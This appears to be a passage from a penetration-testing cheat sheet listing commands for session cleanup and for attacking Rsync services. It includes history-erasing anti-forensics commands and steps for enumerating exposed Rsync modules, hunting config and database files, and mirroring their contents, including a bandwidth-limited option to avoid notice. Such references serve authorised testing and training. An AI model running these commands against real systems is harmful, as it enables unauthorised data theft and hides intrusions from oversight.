 ### Session Cleanup

| Command | Description |
|---------|-------------|
| `history -c` | Clear command history |
| `unset HISTFILE` | Disable history logging |
| `rm ~/.bash_history 2>/dev/null` | Remove history file |
| `unalias ls 2>/dev/null` | Remove command aliases |
| `cd /` | Change to root directory |

## Rsync

### Service Discovery

| Command | Description |
|---------|-------------|
| `rsync <target_ip>::` | Basic Rsync service test and module listing |
| `rsync --list-only <target_ip>` | Explicit module listing |
| `nmap -p 873,8873,9873 <target_ip>` | Scan common Rsync ports |
| `nmap -sV -p 873 <target_ip>` | Service detection |

### Module Enumeration

| Command | Description |
|---------|-------------|
| `rsync -av --list-only <target_ip>::<module_name>` | Detailed module information |
| `for module in backup home www data etc opt var; do echo "Testing module: $module"; rsync --list-only <target_ip>::$module 2>/dev/null; done` | Test common modules |

### File Type Hunting

| Command | Description |
|---------|-------------|
| `rsync -avz --list-only <target_ip>::<module>/ \| grep -E '\.(conf\|cfg\|ini\|bak\|sql\|log)$'` | Search for specific valuable file types |

### Data Extraction

| Command | Description |
|---------|-------------|
| `rsync -avz <target_ip>::<module>/ ./rsync_dump/` | Complete module mirror |
| `rsync -avz --include="*.conf" --include="*.cfg" --exclude="*" <target_ip>::<module>/ ./configs/` | Selective file extraction |
| `rsync -avz --bwlimit=100 <target_ip>::<module>/ ./slow_dump/` | Bandwidth-limited extraction |
